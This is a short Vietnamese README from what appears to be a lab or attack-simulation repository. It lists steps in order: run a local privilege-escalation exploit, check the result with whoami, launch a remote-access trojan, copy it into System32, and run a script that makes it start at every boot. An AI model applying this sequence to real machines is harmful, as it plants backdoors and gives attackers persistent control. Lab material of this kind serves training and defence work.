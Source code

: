 # lpe_all_files



clone máy của level 3 thành 1 máy level 4 riêng <br>

Thứ tự chạy các events: 
- Chạy exploit.exe -c whoami  // # check quyền khai thác có thành công
- Chạy exploit.exe -c "./explorerRat.exe"  // # chạy backdoor remote access
- Chạy exploit.exe -c "cp explorerRat.exe C:\Windows\System32" // # copy backdoor vào system32 để lưu trữ
- Chạy exploit.exe -c "./regRat.ps1"  // # thực hiện lệnh persistence cho RAT khởi động mỗi khi máy start
